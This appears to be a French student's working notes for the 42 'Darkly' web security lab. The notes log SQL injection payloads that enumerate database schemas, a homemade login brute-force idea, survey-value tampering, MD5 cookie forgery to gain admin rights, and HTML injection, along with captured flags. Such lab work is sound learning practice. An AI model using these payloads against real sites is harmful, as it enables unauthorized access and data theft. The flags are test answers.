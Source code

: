 # darkly
projet de web secu de 42


les faille que je prevois de croiser :
- injection sql sur une recherche 
- injection sql sur login
- injeciton de donner sur l upload dimage
- injection js
- injection php (j ai croiser ca sur internet mais je ne suis pas sur de ocomment ca marche)
- manipulation de cookie

# 29novembre :
je comprend comment lancer la machine grace a ce lien que de sympathique gens m on donner sur discord 
https://github.com/AdonisEnProvence/Darkly#setup
je me rend compte que les recherche de photos et d user renvois des erreurs sql 
il y a probablement moyen d y injecter des choses
je testes des trucs

# 30 novembre : 
je test plein de solution dinjeciton sql et une trouver sur se stie touche enfin 
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
 ## 0 UNION ALL SELECT NULL,version()-- 
c est top ca renvoi la version qui est : 5.5.64-MariaDB-1ubuntu0.14.04.1
 ## 0 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
me donne les nom de database suivant :
- information_schema
- Member_Brute_Force
- Member_Sql_Injection
- Member_guestbook
- Member_images
- Member_survey

0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM images.TABLES --

je ne comprend pas les member machin ils ne retourne rien
## 0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES --
je recupere plein de truc mais je ne sait pas quoi en faire

USER_STATISTICS

 0 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='USER_STATISTICS'--

## 0 UNION ALL SELECT NULL,concat(column_name) FROM guestbook.COLUMNS --
me donne toute les columns existante
visiblement http://192.168.56.101/index.php?page=member
et http://192.168.56.101/index.php?page=searchimg
n on pas le meme fonctionnement

# 1 decembre:

## 0 or 1 = 1;

me retourn des infos bien plus interessante dans le user .

je supose que la query sur le serveur ressemble a 

### SELECT * FROM user WHERE user_id = (what i typing);


en parallel j ai tester un outil qui etais sencer brut force les mdp mais il me dit que tout les mot de passe de ca liste sont bon .... 


je pensse que j ai foirer un truc donc je vais fair mon propre outil </br>
il me suiffit de remplacer </br>
http://192.168.56.101/?page=signin&username=d&password=d&Login=Login# </br>
par les username et password de mon choix (je crois je ne comprend pas l interet de Login) </br>
j ai essayer de le mettre a true mais rien ne se passe </br>

## 1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema = database(); 
me renvoi user je ne suis pas sur de situer la difference entre concat et gorup concate


# 15 decembre 

j ai mit en place un moyen avec fetch de brutforce le site

arriver tongyu qui me montre une super faile coter http://192.168.56.101/index.php?page=survey#
il suffit de changer les valeur dans les option et on optien le flags :
``` 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa```
izi


en decryptant le cooki en md5 on trouve false je supose donc que l on peu encrypter la chaine true pour devenire admin 
se qui fonctionne et me permet donc de trouver le flag : ``` df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3 ```

dans
http://192.168.56.101/?page=feedback
en rentrans une balise html style <h1>test</h1>
on obtien le flag : 
```0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E```